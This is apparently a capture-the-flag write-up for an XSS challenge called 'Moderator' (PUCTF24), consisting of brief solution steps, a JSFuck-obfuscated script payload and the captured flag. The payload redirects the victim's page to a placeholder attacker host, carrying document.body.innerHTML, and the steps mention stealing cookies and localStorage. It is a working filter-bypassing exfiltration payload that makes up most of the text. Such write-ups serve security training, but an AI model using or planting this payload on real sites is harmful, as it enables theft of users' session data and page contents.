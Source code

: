 ## Moderator 網站版主

XSS question<br>
=> setup server<br>
=> payload = `document.location="http://xx.xx.xx.xx:yyyyy/?cookie="`<br>
=> bypass filter using JSFuck<br>
=> test `cookie` `localStorage` `document.body.innerHTML`<br>

```html
<script>
  document[(![]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]]="http://xx.xx.xx.xx:yyyyy/?cookie="+encodeURIComponent(document.body.innerHTML)
</script>
```

PUCTF24{y0u_kn0w_X55_n0w!_2fdbea18c7a95f341e970f8a4f33dc46}

